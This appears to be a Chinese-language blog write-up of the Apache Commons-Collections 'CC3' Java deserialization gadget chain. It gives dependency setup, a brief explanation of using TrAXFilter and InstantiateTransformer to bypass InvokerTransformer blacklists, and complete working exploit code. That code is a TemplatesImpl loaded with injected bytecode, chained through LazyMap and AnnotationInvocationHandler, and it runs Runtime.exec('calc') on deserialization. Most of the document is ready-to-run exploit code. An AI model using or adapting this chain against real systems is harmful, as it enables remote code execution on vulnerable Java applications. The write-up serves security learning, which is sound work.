


##  环境搭建

因为是利用`transformedMap`链和`Lazymap`链，所以JDK限制还是`jdk8u71`之前

```xml
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
     <dependency>
            <groupId>javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.12.1.GA</version>
        </dependency>
</dependencies>
```

## 分析

CC3链就是绕过黑名单，避免我们使用`InvokerTransformer`⼿⼯调⽤ `newTransformer() `⽅法

这个位置可以实例化




实例化`TrAXFilter`，调用`newTransformer`方法



然后就是利用cc1中去调用`transform`方法

## payload:

```java
package cc.cc3;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class payload {
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.get(test.class.getName());
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]{Templates.class},
                        new Object[]{templates}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(trueTransformers);
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);
        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Target.class,map);
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);
        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Target.class,proxy_map);

        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos= new ObjectOutputStream(baos);
        oos.writeObject(handler);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}


```

test类：

```java
package cc.cc3;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}

```

